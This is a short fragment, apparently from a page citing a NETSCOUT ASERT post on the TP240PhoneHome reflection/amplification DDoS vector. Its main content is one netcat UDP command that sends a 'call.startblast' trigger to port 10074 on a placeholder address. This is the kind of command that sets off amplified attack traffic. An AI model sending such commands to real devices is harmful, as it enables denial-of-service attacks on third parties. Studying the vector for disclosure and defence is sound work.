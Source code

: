 https://www.netscout.com/blog/asert/tp240phonehome-reflectionamplification-ddos-attack-vector

echo 'call.startblast 25 111111111111111111111111111111111111111111111111111111' | nc -u x.x.x.x 10074
